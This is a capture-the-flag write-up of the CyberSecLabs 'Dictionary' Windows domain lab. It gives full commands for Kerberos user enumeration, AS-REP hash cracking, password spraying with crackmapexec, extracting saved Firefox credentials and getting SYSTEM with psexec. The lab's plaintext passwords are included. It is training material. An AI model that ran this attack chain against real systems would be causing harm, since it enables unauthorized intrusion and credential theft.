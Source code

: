 ```yaml
---
description: https://www.cyberseclabs.co.uk/labs/info/Dictionary/
---
```


# Dictionary

![](<../../../.gitbook/assets/image (578) (1).png>)

## Nmap

```
sudo nmap 172.31.3.4 -p- -sS

PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49681/tcp open  unknown
49697/tcp open  unknown
49703/tcp open  unknown
49742/tcp open  unknown
49913/tcp open  unknown
```

## SMB

Starting off with the usual checks against SMB leads us to no access with `smbclient` and `crackmapexec`.

![](<../../../.gitbook/assets/image (579).png>)

I also attempted a null login with `rpcclient` on RPC and was unable to authenticate.

## LDAP

Authenticating against LDAP with no credentials does not reveal any sensitive information. We do get the naming context however.

```
nmap -n -sV --script "ldap* and not brute" 172.31.3.4
```

![](<../../../.gitbook/assets/image (580).png>)

## Kerberos

With no web server up and some of the most common ports quickly scanned over we can check Kerberos with `Kerbrute` for any existing accounts.

```
./kerbrute userenum /usr/share/seclists/Usernames/Names/names.txt --dc 172.31.3.4 -d dictionary.csl
```

![](<../../../.gitbook/assets/image (581).png>)

We should now run this name against Impacket's GetNPUsers.py script to check if the account 'izabel' is Kerberoastable.

```
sudo python2 GetNPUsers.py -request -format john -dc-ip 172.31.3.4 dictionary/izabel -no-pass
```

After this command has been run you should receive a hash back. Place this hash into a file and then run John to crack the password.

```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt /home/kali/Desktop/hash 
```

![](<../../../.gitbook/assets/image (582).png>)

We now have the credentials of izabel:June2013. I then cried connecting in with `Evil-WinRM` since port 5985 is open but was denied access.

![](<../../../.gitbook/assets/image (583).png>)

I then tried with `rpcclient` and was given access. From here I was able to enumerate domain users with the `enumdomusers` command.

![](<../../../.gitbook/assets/image (584) (1).png>)

We can take these users and put them in a text file. As we already have a valid login for Izabel I will only add the following three accounts to a file.

* Valencia
* Backup-Izabel
* Administrator

We can test these against SMB and `WinRM` with `crackmapexec` using the password 'June2013' if we are lucky we might get a hit.

![](<../../../.gitbook/assets/image (585) (1).png>)

No valid hits was returned from `crackmapexec`. Its important to note that because we have the password 'June2013' its possible users are using predictable patterns for passwords. Ideally we can create a wordlist of months and years.

`Hashcat` which comes pre-installed on Kali has a tool called Combinator.bin that can take two separate text files and combine the words within to create a custom wordlist.

First we need to create a text file containing months and another containing years.

![](<../../../.gitbook/assets/image (586).png>)

Use the command locate to find the location of your combinator.bin file. Once in the directory run the file with the following syntax.

```
./combinator.bin <file1> <file2>
```

This will create a list that should like the following below. Save this output to a file.

![](<../../../.gitbook/assets/image (587).png>)

We can now run this against `crackmapexec`.

```
crackmapexec winrm 172.31.3.4 -u <userlist> -p <passlist>
```

After a short while we get a match under WinRM.

![](<../../../.gitbook/assets/image (588).png>)

We can then log in with Evil-WinRM.

```
evil-winrm -u backup-izabel -p October2019 -i 172.31.3.4
```

![](<../../../.gitbook/assets/image (589).png>)

Running the command `whoami /all` does not show anything outstanding.

![](<../../../.gitbook/assets/image (590).png>)

Access to `systeminfo` is blocked by the system. As per usual I will run winPEAS.exe to help identify any privilege escalation vectors. I was able to upload the binary with the `upload` command then execute as shown below.

![](<../../../.gitbook/assets/image (591).png>)

`winPEAS` did not show too much interesting information however, we do appear to have Firefox installed which as we know is not default on Windows and warrants a closer look.

![](<../../../.gitbook/assets/image (592).png>)

We can check what version of Firefox is running by calling the Firefox binary with the -`v` switch.

![](<../../../.gitbook/assets/image (593).png>)

I run this against `searchsploit` and did not have any relevant results. A Google search also gave no major exploits for this revision of Firefox.

![](<../../../.gitbook/assets/image (594) (1).png>)

What we can do is check for stored passwords. Its always worth checking appdata for stored browser credentials when possible.

A Google search regarding saved passwords location for Firefox takes us to a user submitted query on Mozilla's website.

![](<../../../.gitbook/assets/image (595) (1).png>)

Heading over to the effective same location on the Server we see two profiles stored.

![](<../../../.gitbook/assets/image (596) (1).png>)

Moving into the 65wr35iv.default-release profile we see two of the interesting files mentioned on the Mozilla website.

![](<../../../.gitbook/assets/image (597).png>)

We can download the profile folder with the `download` command to further inspect it.

```
download C:\users\backup-izabel\appdata\roaming\mozilla\Firefox\Profiles\65wr35iv.default-release
```

{% hint style="info" %}
Be patient whilst the folder downloads. This took a few minutes to downloaded for myself.
{% endhint %}

When attempting to view the logins.json file we get encrypted values.

![](<../../../.gitbook/assets/image (598).png>)

If we turn to Google and search for ways to decrypt the logins.json values the top results is a Python script by unode called 'firefox\_decrypt.

{% embed url="https://github.com/unode/firefox_decrypt" %}

We can use `Git Clone` command to download to our machine.

```
sudo git clone https://github.com/unode/firefox_decrypt.git
```

Then as per the above GitHub page we can called the python script and specify the location of the profile folder to attempt to decrypt and extract credential information. When asked for a master password just hit enter to skip password input.

![](<../../../.gitbook/assets/image (600).png>)

Now that we have further credential information it will be worth us adding these to our exists username and password lists we created earlier.

```
crackmapexec winrm 172.31.3.4 -u <userfile> -p <passlist> --continue-on-success
```

We can now try spraying these with crackmapexec against WinRM with our list of known users to see if we get a valid hit.

![](<../../../.gitbook/assets/image (602) (1).png>)

We are then able to login with Evil-WinRM.

![](<../../../.gitbook/assets/image (603) (1).png>)

We are now the Domain Administrator. Lets see if we can use Impacket's psexec.py to elevate to SYSTEM.

```
sudo python2 psexec.py dictionary/administrator:kC7pbrQAsTT@172.31.3.4
```

![](<../../../.gitbook/assets/image (604).png>)
